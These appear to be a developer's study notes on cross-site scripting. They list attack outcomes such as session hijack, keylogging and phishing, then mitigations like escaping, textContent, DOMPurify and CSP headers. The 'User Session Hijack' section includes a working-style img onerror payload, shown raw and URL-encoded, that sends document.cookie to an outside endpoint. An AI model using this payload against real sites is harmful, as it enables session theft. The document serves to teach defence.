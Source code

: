 ### XXS

### Vulnerabilities

## User Sesson Hijack
- When we are reading someting from url using search params, a random script can be added to our url in place of name which can execute a sciprt and steal our data.

- Now a days browsers are smart to not allow script tag to be added to url but, there are still hacks that can be done.
- eg <img src=\"does-not-exits\" onerror=\"var img=document.createElement(\'img\') img.src=`http://127.0.0.1:5501/cookie?data=${document.cookie}`; document.querySelector(\'body\').appendChild(img);\">

[encodeURIComponent("<img src=\"does-not-exits\" onerror=\"var img=document.createElement('img') img.src=`http://127.0.0.1:5501/cookie?data=${document.cookie}`; document.querySelector('body').appendChild(img);\">")]

- and pass above to url ?name="malicious script"
- the script executes and reads our cookies which is sensitive data.

## Unauthorized activities
- OR, hacker may execute some function (API) written inside you code with malicious information. As it is your code it will have all authorization and access and will execute successfully

## Capturing keystroke
- Or, Hacker can add script to track all key press events and get all data user is typing, which maybe be sensitive. eg password

## Stealing critical Information
- Hacker can write script to pass entire document.body.innerHTML to some malicious endpoint, whcih may pass critical information along

## phishing attact
- Hacker and insert their own html in DOM which may look very much similar to original, eg a form which takes login credentials

### [Mitigation]

- List all possible ways to take you input

- Use innerText or textContent in place of innerHTML - innerText will be pritext as syntax and not js code or dom element, it will be printed as norml string

- New modal of browser takes care of not executing script inject from url, it will be present but not execute, for older browser we need to handle by using innerText/textContent

- Use escaping mechnaism eg - const sanitizedName - name.replace(/</g, '&lt;').replace(/>/g, '&gt;') this will make any scipt inject to iur system non executable, the inject script will not be taken as dom element on execution but a string

- Using library React, all this sanitization is done behind the scene by React and other libraries for security purpose. This is provided out of the box.

- avaoid dangerouslysetinnerhtml, React allows this but should be avoided as they can be harmful. Use DOMPurify to sanitize your data if necessary.

- Use DOMPurify to sanitize your data DOMPurify.sanitize(name)

- CSP Headers (Content Security Policy Headers) - it can be ser on server, decided what type of resources can be loaded and from where all it can be loaded, to avoid injection form third party. Event handling which script to inject can be handled.

- Decide Allowed Sources
- Script Nonces
- Report only mode, - form where and how many places attackes are being tried

- Avoid using eval - it executes any code indside it, an be harmful